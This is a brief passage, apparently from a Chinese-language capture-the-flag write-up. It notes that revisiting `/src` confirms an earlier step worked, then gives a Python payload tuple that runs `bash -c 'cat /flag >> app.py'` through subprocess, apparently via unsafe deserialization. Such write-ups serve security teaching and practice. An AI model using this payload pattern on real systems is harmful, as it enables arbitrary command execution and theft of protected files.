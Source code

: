 再次访问 `/src` 可以看到已经执行成功了:

![25-2.png](25-2.png)

接下来只需要

```python
return (subprocess.run, (["bash", "-c","cat /flag >> app.py"],), {"shell": True})
```
